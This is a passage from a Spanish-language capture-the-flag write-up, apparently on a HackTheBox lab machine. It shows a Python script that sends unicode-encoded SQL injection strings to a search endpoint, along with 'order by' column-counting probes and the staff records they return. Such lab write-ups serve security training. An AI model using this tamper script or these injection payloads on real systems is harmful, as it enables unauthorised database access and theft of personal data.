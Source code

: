 ```null
    post_data = '{"name":"%s"}' % sqli_formated

    r = requests.post(main_url, headers=headers, data=post_data)

    toprint = json.loads(r.text)

    return (json.dumps(toprint, indent=5))

if __name__ == '__main__':

    while True: # Mediante un bucle infinito, solicito el input que quiero transformar

        sqli = input("-> ")
        sqli = sqli.strip()

        formatunicode(sqli)

        sqli_formated = formatunicode(sqli)

        toprint = makeRequest(sqli_formated)

        makeRequest(sqli_formated)

        print(toprint)
```

Al ejecutarlo, si trato de efectuar un ordenamiento basado en las columnas, no me devuelve un error del que me pueda aprovechar

```null
rlwrap python3 sqli_tampers.py
-> ' order by 100-- -
null
```

Pero aunque no vea el error, si pruebo por numeros pequeños, llega un punto en el que devuelve otra informacion

```null
rlwrap python3 sqli_tampers.py
-> ' order by 7-- -
null
-> ' order by 6-- -
null
-> ' order by 5-- -
[
     {
          "id": 15,
          "name": "Alessandro Dominguez",
          "position": "Senior Web Developer",
          "email": "aldom@megacorp.htb",
          "src": "aldom.jpg"
     },
     {
          "id": 11,
          "name": "Alyx Walters",
          "position": "Automation Engineer",
          "email": "alyx@megacorp.htb",
          "src": "alyx.jpg"
     },
     {
          "id": 3,
          "name": "Christian Kane",
          "position": "Assistant Manager",
          "email": "ckane@megacorp.htb",
```